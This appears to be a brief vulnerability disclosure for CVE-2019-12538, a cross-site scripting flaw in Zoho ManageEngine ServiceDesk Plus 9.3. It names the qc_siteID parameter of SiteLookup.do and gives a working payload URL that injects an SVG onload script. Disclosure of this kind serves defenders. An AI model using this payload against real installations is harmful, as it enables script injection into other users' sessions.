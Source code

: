# CVE-2019-12538 Zoho ManageEngine ServiceDesk Plus 9.3 XSS vulnerability in SiteLookup.do
Information Description: An issue was discovered in Zoho ManageEngine ServiceDesk Plus 9.3. There is XSS via the SiteLookup.do qc_siteID parameter. 

**Author: Concobe of Tarantula Team - VinCSS (a member of Vingroup)**

# Payload
domain/SiteLookup.do?configID=0&SELECTSITE=qc_siteID"/><svg onload=alert('XSS')>&userConfigID=1&SELECTEDSITEID=1&SELECTEDSITENAME=


